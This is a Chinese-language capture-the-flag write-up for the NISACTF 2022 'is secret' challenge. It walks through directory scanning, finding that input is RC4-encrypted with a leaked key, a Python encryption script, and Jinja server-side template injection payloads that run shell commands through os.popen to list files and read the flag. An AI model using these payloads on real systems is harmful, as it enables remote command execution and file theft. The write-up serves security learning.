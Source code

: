 # [NISACTF 2022]is secret RC4加密执行SSTI

这里结合了加密 记录一下

首先获取

<img src="https://i-blog.csdnimg.cn/blog_migrate/296c6ba6dd04564561bcf0beb934f76a.png" alt="" style="max-height:133px; box-sizing:content-box;" />


啥都没得

扫一下目录



<img src="https://i-blog.csdnimg.cn/blog_migrate/9be28d59761ea700fdb8f3b9c5d38588.png" alt="" style="max-height:144px; box-sizing:content-box;" />


都看看

后面发现

```cobol
http://node5.anna.nssctf.cn:28378/secret
```

这个页面



<img src="https://i-blog.csdnimg.cn/blog_migrate/d03f3d595c14b99b68b3fd36a21e73be.png" alt="" style="max-height:116px; box-sizing:content-box;" />


Tell me 是不是就是传参 我们get传递一个看看

```cobol
http://node5.anna.nssctf.cn:28378/secret?secret={{49}}
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/13fce5bf41a4140e8d7cabb05590c837.png" alt="" style="max-height:699px; box-sizing:content-box;" />


发生报错 出现了 框架 这里一看就是框架漏洞了

然后我们看看报错信息

因为经过测试 我们可以发现输入1 会回显其他字符 这里肯定说明存在加密



<img src="https://i-blog.csdnimg.cn/blog_migrate/4bc88478459f231ad5d70bb98edd3830.png" alt="" style="max-height:301px; box-sizing:content-box;" />


这里出现了 说明我们需要传递一个RC4的加密进去 并且密文为

```
HereIsTreasure
```

所以我们可以通过脚本来实现

```cobol
import base64
from urllib import parse
 
 
def rc4_main(key="init_key", message="init_message"):  # 返回加密后得内容
    s_box = rc4_init_sbox(key)
    crypt = str(rc4_excrypt(message, s_box))
    return crypt
 
 
def rc4_init_sbox(key):
    s_box = list(range(256))
    j = 0
    for i in range(256):
        j = (j + s_box[i] + ord(key[i % len(key)])) % 256
        s_box[i], s_box[j] = s_box[j], s_box[i]
    return s_box
 
 
def rc4_excrypt(plain, box):
    res = []
    i = j = 0
    for s in plain:
        i = (i + 1) % 256
        j = (j + box[i]) % 256
        box[i], box[j] = box[j], box[i]
        t = (box[i] + box[j]) % 256
        k = box[t]
        res.append(chr(ord(s) ^ k))
    cipher = "".join(res)
    return (str(base64.b64encode(cipher.encode('utf-8')), 'utf-8'))
 
 
key = "HereIsTreasure"  # 此处为密文
message = input("请输入明文:\n")
enc_base64 = rc4_main(key, message)
enc_init = str(base64.b64decode(enc_base64), 'utf-8')
enc_url = parse.quote(enc_init)
print("rc4加密后的url编码:" + enc_url)
# print("rc4加密后的base64编码"+enc_base64)
```

然后就可以进行正常的ssti了

```handlebars
{{lipsum.__globals__['os'].popen("ls").read()}}
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/c5663ec6397895c834ed173e7533f858.png" alt="" style="max-height:150px; box-sizing:content-box;" />


然后我们直接cat f*即可

```handlebars
{{lipsum.__globals__['os'].popen("cat /f*").read()}}
```